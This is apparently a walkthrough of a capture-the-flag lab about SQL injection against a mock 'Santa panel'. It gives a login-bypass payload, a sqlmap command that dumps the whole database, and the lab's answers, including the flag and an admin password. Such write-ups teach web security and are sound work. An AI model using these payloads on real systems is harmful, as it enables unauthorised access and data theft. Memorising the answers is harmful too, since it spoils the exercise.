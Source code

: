 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2865%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%288%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2838%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2860%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2818%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2844%29.png)

![](../.gitbook/assets/image%20%2812%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2823%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2861%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%282%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

